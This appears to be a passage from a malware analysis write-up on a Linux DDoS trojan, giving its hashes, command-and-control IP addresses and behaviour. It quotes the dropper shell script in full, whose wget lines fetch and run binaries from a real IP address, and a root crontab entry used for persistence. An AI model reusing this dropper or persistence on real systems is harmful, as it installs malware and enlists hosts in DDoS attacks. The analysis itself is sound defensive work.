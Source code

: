 #### Overview

So we can see several things going on: dropped files, additional payload downloads, tries to persist itself in as many places as possible, masks its presence with different process names. These two pieces of malware were the first ones I've analyzed (ever) so I don't have much indepth analysis other than what I was able to gather from network traffic and observations through docker. For a more detailed write up [Kaspersky has a great writeup, including reversed source code](https://securelist.com/analysis/publications/64361/versatile-ddos-trojan-for-linux/).

<a name="ddos-flood"></a>
## DDOS.Flood / DnsAmp

**Common name:** DDOS.Flood / DnsAmp<br>
**sha256:** d9d58fb1f562e7c22bb67edf9dc651fa8bc823ff3e8aecc04131c34b5bc8cf03<br>
**md5:** b589c8a722b5c35d4bd95487b47f8b8b

Initial look:

- Initial payload is a shell script
- Another DDOS type malware
- Drops several binaries that cover as many architectures as possible (ARM/MIPS/etc)
- Masks itself as system interrupt process (irq)
- Uses IRC + HTTP for communication
- Connects to 2 IPs:
  - **52.8.123.250:80**
    - Running on AWS, most likely compromised.
  - **49.231.211.193:8080**
    - Running somewhere in Australia.
- Initial payload is a bash script


#### Dropped Files

*Initial Payload*

``` bash
#!/bin/bash
wget -c http://52.8.123.250/x/tty0 -P /var/run && chmod +x /var/run/tty0 && /var/run/tty0 &
wget -c http://52.8.123.250/x/tty1 -P /var/run && chmod +x /var/run/tty1 && /var/run/tty1 &
wget -c http://52.8.123.250/x/tty2 -P /var/run && chmod +x /var/run/tty2 && /var/run/tty2 &
wget -c http://52.8.123.250/x/tty3 -P /var/run && chmod +x /var/run/tty3 && /var/run/tty3 &
wget -c http://52.8.123.250/x/tty4 -P /var/run && chmod +x /var/run/tty4 && /var/run/tty4 &
wget -c http://52.8.123.250/x/tty5 -P /var/run && chmod +x /var/run/tty5 && /var/run/tty5 &
wget -c http://52.8.123.250/x/pty && chmod +x pty && ./pty &
wget -c http://52.8.123.250/x/pty -P /var/run && chmod +x /var/run/pty && /var/run/pty &
rm -rf /var/run/1sh
```


*/var/spool/cron/crontabs/root*

```
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/var/run/.x001804289383 installed on Tue May 17 21:20:29 2016)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
* * * * * /run/pty > /dev/null 2>&1 &
```
